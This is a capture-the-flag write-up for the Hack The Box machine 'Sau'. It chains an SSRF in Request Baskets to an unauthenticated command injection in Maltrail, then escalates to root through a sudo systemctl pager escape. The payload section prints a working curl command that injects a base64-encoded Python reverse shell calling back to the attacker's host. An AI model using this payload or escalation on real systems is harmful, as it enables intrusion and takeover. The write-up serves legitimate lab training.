### Easy Box


| Name | Sau|
| :------ |:--- |
| OS | Linux |
| RELEASE DATE | July 8, 2023 |
| DIFFICULTY | <span style="color:green">Easy</span> | 1


## Port Scan
I actually wanted to test Naabu as my scanner of choice to be able to enumerate the host. I just Naabu to scan all of the ports and Naabu has a feature to then pump the ports to nmap. This was my command and output.

```sh
solidshadw@solidManjaro  ~/Downloads   
$ sudo naabu -p - -host 10.10.11.224 -nmap-cli 'nmap -sV -oX nmap-outpu  
t'
  
                 __  
 ___  ___  ___ _/ /  __ __  
/ _ \/ _ \/ _ \/ _ \/ // /  
/_//_/\_,_/\_,_/_.__/\_,_/  
  
               projectdiscovery.io  
  
[INF] Current naabu version 2.1.6 (latest)  
[INF] Running host discovery scan  
[INF] Running SYN scan with CAP_NET_RAW privileges  
[INF] Found 2 ports on host 10.10.11.224 (10.10.11.224)  
10.10.11.224:55555  
10.10.11.224:22  
[INF] Running nmap command: nmap -sV -oX nmap-output -p 22,55555 10.10.  
11.224  
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-29 14:30 MDT  
Nmap scan report for 10.10.11.224  
Host is up (0.069s latency).  
  
PORT      STATE SERVICE VERSION  
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux;  
protocol 2.0)  
55555/tcp open  unknown  
1 service unrecognized despite returning data. If you know the service/  
version, please submit the following fingerprint at https://nmap.org/cg  
i-bin/submit.cgi?new-service :  
SF-Port55555-TCP:V=7.94%I=7%D=7/29%Time=64C576E7%P=x86_64-pc-linux-gnu%  
r(G  
SF:etRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/htm  
l;\  
SF:x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Sat,\x2029\x20Jul\  
x20  
SF:2023\x2020:30:31\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\  
"/w  
SF:eb\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x2  
0Re  
SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection  
:\x  
SF:20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x  
202  
SF:00\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Sat,\x2029\x20Jul\  
x20  
SF:2023\x2020:30:31\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequ  
est  
SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/pla  
in;  
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Reque  
st"  
SF:)%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20  
tex  
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\  
x20  
SF:Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n  
Con  
SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r  
\n\  
SF:r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x204  
00\  
SF:x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r  
\nC  
SF:onnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,6  
7,"  
SF:HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x  
20c  
SF:harset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%  
r(K  
SF:erberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t  
ext  
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x  
20R  
SF:equest")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\  
r\n  
SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Opti  
ons  
SF::\x20nosniff\r\nDate:\x20Sat,\x2029\x20Jul\x202023\x2020:30:58\x20GM  
T\r  
SF:\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20  
nam  
SF:e\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}  
\$\  
SF:n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Ty  
pe:  
SF:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\  
x20  
SF:Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Requ  
est  
SF:\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20  
clo  
SF:se\r\n\r\n400\x20Bad\x20Request");  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
Service detection performed. Please report any incorrect results at htt  
ps://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 89.64 seconds
```

Looks like we found 2 ports opened. Port 22 and Port 55555. 

## Port 55555
Looks like this port is running a web interface



As I inspect the app. Looks like you can create a webhook like in which it collects and inspects the data sent over. 

We can send requests to the basket that I created `http://10.10.11.224:55555/web/gfr64fy`. 



On the main page, I saw a version number `Version: 1.2.1`. Which I proceeded to look any potential vulnerabilities and bingo. https://github.com/advisories/GHSA-58g2-vgpg-335q, 
Looks like it is vulnerable to SSRF. As I continue to dig into this vulnerability, seems that it is exploiting the `/api/baskets/{name}`. That means that every time we visit that site, that api path gets called and triggered. 

Exploring that app a bit more, I found that you can forward URLs. 



I stumbled upon this [article](https://notes.sjtu.edu.cn/s/MUUhEymt7)  that was explaining the SSRF vulnerability and they used this feature of forward URL to exploit the SSRF to find any other webservers not exposed to internet. They found more resources on the localhost that where to not available on our initial scan. So, I tried on port 80 and boom we got another webserver. 





It looks like it is a Maltrail from the description at the bottom. It also exposes a version `v0.53`. A quick google search, you can find that version is vulnerable to an Unauthenticated RCE(the best kind) https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/.

We will need to add the `/login` at the end because it looks that is where that RCE happens. So, in the end our config will look something like this:



## Payload to get RevShell

I started testing the RCE by sending a curl command to my host.



Which it was successful! So, we know that it is working. 



I tried the basic sh revershell but I couldn't get it to work, not sure why. When digging into this RCE I found this [article](https://medium.com/pentesternepal/owasp-ktm-0x03-ctf-writeup-e467634a9661) in which they craft a python reverse shell and echo it in base64 and decode and execute with bash. This was my final payload:

```bash
$ curl 'http://10.10.11.224:55555/gfr64fy' \         
 --data 'username=;`echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZ  
XNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJF  
QU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjEwIiw4MDg1KSk7b3MuZHVwMihzLmZpbGVubyg  
pLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG  
9ydCBwdHk7IHB0eS5zcGF3bigiYmFzaCIpJw==|base64 -d|bash`'
```

After executing it, it worked!



## Privilege Escalation Payload

Looks like we are running as the user "puma". I ran the command `sudo -l` to see if he's able to run any commands as sudo without a password.



A quick google search on privilege escalation when running `systemctl status` landed me on this page https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/. 

So, the final payload is divided in two parts. The first is:
```bash 
sudo systemctl status trail.service
```
And then you run:
```bash
!sh
```

And that drops you into a shell. We have made it to root. 

